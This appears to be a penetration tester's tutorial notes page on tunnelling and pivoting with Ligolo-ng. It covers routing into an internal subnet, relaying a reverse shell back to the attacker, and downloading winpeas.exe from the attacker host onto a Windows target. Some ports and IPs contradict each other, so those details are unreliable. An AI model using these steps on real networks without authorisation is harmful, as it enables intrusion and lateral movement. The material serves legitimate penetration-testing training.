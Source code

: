 # Ligolo-ng

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

## Setting Up

{% embed url="https://github.com/nicocha30/ligolo-ng/releases" %}

For the setup, we need only two files. Agent and Proxy

Agent: File to be installed on pivot machine\
Proxy: File to be installed on attacker machine



## Attack Scenario 1

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

For this first attack scenario, we have our attacker machine (kali) and pivot machine (ubuntu).\
Pivot machine has an additional network interface (172.16.1.15).\
We cannot ping/access this {172.16.1.15} network from our attacker machine (kali).

Lets get access to this network

In our attacker machine\
`sudo ip tuntap add user [your_username] mode tun ligolo` \
this will add new tun interface `ligolo`\
`sudo ip link set ligolo up` \
this will enable the newly created interface `ligolo`

Now we need two file\
`ligolo-ng_agent_version-linux_version.tar.gz` for pivot machine\
`ligolo-ng_proxy_version-linux_version.tar.gz`for attacker machine

get latest version form official github repo.

Then transfer the agent file to the pivot machine (ubuntu)

### In attacker machine

`./proxy -selfcert`

### In pivot machine

`./agent -connect kali_linux_ip:11601 -ignore-cert`\
port `11601` is by default set on proxy in the attacker machine\
we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert`



### In attacker machine

`session` to list the session and select the session we want to connect\
`ifconfig or ipconfig` to view the interface of the pivot machine.

Now in new terminal \
sudo ip route add `172.16.1.0/24 dev ligolo`\
here we are adding route for 172.16.1.0/24 network

once the route is set.

Go back to the terminal where agent is agent is running\
`start` -> this wll start tunnel to the pivot machine.



Now we have connection to the `172.16.1.0/24`network\
Meaning we can view the webserver running  on port 80 of windows `172.16.1.16`

## Getting Reverse Shell

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Lets say we now have access to the windows machine on `172.16.1.0/24` which was previously not routable from our attacker host. Now we want reverse shell connection from that machine (windows).

That windows machine cannot reach us, it does not have route to our ip, it can only reach the pivot machine.

To solve this

We can listen to ports on Agent (pivot machine) and redirect the connection back to us (attacker machine)

we can set this up using

*   In attacker proxy terminal \
    `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`

    on the pivot machine, any device or interface on port `3000` will redirect our port `10000`

Which means we can create a payload with \
lhost: 172.16.1.15\
lport: 10000

when the pivot machine gets data on port 30000\
it will redirecto it to port 10000 on our attacker machine(kali)\


Meaning we can listen on 10000 to get the reverse shell connection.



## Transferring File Between Machines

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



To transfer files, we can add another listener.

`listener_add --addr 0.0.0.0:11111 --to 127.0.0.1:22222 --tcp`

In our attacker machine run python http server on port 22222

In windows target machine, download the file using

`Invoke-WebRequest -Uri "http://172.16.1.5:11111/winpeas.exe" -OutFile winpeas.exe`

Here, windows will send request to port 11111 on pivot (ubuntu) and ligolo-ng will redirect it to port 22222 on our attacker machine\
\
\
More more insight, what this video by John Hammond

{% embed url="https://youtu.be/qou7shRlX_s" %}

